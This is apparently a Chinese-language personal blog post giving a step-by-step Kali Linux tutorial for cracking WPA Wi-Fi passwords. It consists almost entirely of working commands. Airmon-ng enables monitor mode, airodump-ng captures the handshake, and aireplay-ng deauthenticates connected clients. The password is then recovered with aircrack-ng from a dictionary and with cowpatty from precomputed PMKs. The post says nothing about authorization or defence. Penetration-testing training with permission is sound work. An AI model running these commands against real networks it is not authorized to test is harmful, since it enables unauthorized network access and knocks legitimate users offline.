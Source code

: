```yaml
---
layout: post
title: "Kali linux无线网络渗透测试"
subtitle: "Hello World, Hello Blog"
author: "Haike Nan"
header-img: "img/home-bg.jpg"
tags: 
  - kali
  - linux
  - 无线
  - 渗透
---
```


所需工具：带监听模式的无线网卡、Kali linux虚拟机

**查看无线接口：**

```
iwconfig
```

**激活无线接口：**

```
ifconfig wlan0 up
```

**创建监听模式接口：**

```
airmon-ng start wlan0
```

如果提示先终止相关进程，则先运行：

```
airmon-ng check kill
```

再运行：

```
airmon-ng start wlan0
```

**扫描无线网络：**

```
airodump-ng wlan0mon
```

记下要渗透的AP的SSID、MAC和信道。

**抓取握手包：**

开启抓包，将包文件命名为test存入本地：

```
airodump-ng --bssid 00:00:00:00:00:D0 --channel 1 --write test wlan0mon
```

等待片刻，记下STATION栏下客户端的MAC。

在终端上新建标签，运行解除认证命令：

```
aireplay-ng -0 5 -a 00:00:00:00:00:D0 -c 00:00:00:00:00:D7 wlan0mon --ignore-negative-one
```

当先前标签右上角显示WPA handshake:时终止运行。

**破解密码：**

```
aircrack-ng -w zidian.lst test-01.cap
```

附：使用预先计算PSK来加快破解速度：

针对给定的字典名和SSID来预先计算PMK：

```
genpmk -f zidian.lst -d test2 -s "cisco"
```

生成名为test2的文件，其中包含了预先生成的PMK。

如果提示未找到命令 可先安装cowpatty：

```
apt-get install cowpatty
```

使用cowpatty破解密码：

```
cowpatty -d test2 -s "cisco" -r test-01.cap
```

